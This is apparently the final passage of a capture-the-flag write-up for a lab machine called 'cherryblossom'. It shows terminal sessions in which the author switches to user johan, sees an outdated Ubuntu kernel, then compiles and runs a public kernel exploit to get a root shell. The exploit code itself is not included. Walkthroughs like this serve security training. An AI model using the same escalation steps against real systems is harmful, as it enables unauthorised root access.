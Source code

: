 ```
lily@cherryblossom:~$ su johan
Password: 
johan@cherryblossom:/home/lily$ cd
johan@cherryblossom:~$ id
uid=1001(johan) gid=1001(johan) groups=1001(johan),1003(devs)
johan@cherryblossom:~$ ls
user.txt
johan@cherryblossom:~$ ls -al
total 48
drwxr-x---  6 johan johan 4096 Feb 10  2020 .
drwxr-xr-x  4 root  root  4096 Feb  9  2020 ..
lrwxrwxrwx  1 johan johan    9 Feb  9  2020 .bash_history -> /dev/null
-rw-r--r--  1 johan johan  220 Apr  4  2018 .bash_logout
-rw-r--r--  1 johan johan 3771 Apr  4  2018 .bashrc
drwx------ 11 johan johan 4096 Feb  9  2020 .cache
drwx------ 11 johan johan 4096 Feb  9  2020 .config
drwx------  3 johan johan 4096 Feb  9  2020 .gnupg
-rw-------  1 johan johan  346 Feb  9  2020 .ICEauthority
drwx------  3 johan johan 4096 Feb  9  2020 .local
-rw-r--r--  1 johan johan  807 Apr  4  2018 .profile
-rw-rw-r--  1 johan johan   38 Feb 10  2020 user.txt
-rw-rw-r--  1 johan johan  180 Feb  9  2020 .wget-hsts
johan@cherryblossom:~$ 
```
bull's eye we are in as user `johan`

```
johan@cherryblossom:~$ uname -a
Linux cherryblossom 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
johan@cherryblossom:~$ 
```
checking the version of the os, we can see it is running an outdated version of ubuntu. let's try out kernel exploit.

![image](https://user-images.githubusercontent.com/87468669/221529331-b55aaedb-d3fe-4ff2-b959-730182eae0a9.png)

found an exploit on github. download and comopile the exploit using `make` 

```
johan@cherryblossom:~$ chmod +x exploit 
johan@cherryblossom:~$ ./exploit 
[sudo] password for johan: 
Sorry, try again.
# id 
uid=0(root) gid=0(root) groups=0(root),1001(johan),1003(devs)
# whoami 
root
# 
```
send the exploit to the target and run it. it gave us a root shell

![image](https://user-images.githubusercontent.com/87468669/221529998-154360c6-f0e3-4494-ac1e-7caa730f70f5.png)

and we are through.






